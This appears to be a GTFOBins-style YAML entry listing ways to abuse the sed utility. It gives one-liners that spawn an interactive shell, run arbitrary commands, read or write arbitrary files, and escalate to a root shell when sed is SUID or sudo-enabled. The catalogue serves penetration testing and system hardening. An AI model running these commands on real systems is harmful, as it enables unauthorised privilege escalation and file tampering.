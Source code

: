 ```yaml
---
functions:
  execute-interactive:
  - description: GNU version only. Also, this requires `bash`.
    code: sed -n "1e bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  execute-non-interactive:
  - description: GNU version only.
    code: sed -n "1e id" /etc/hosts
  file-write:
  - code: |
      LFILE=file_to_write
      sed -n "1s/.*/data/w $LFILE" /etc/hosts
  file-read:
  - code: |
      LFILE=file_to_read
      sed '' "$LFILE"
  suid-enabled:
  - code: |
      LFILE=file_to_read
      ./sed -e '' "$LFILE"
  sudo-enabled:
  - description: GNU version only. Also, this requires `bash`.
    code: sudo sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
---
```

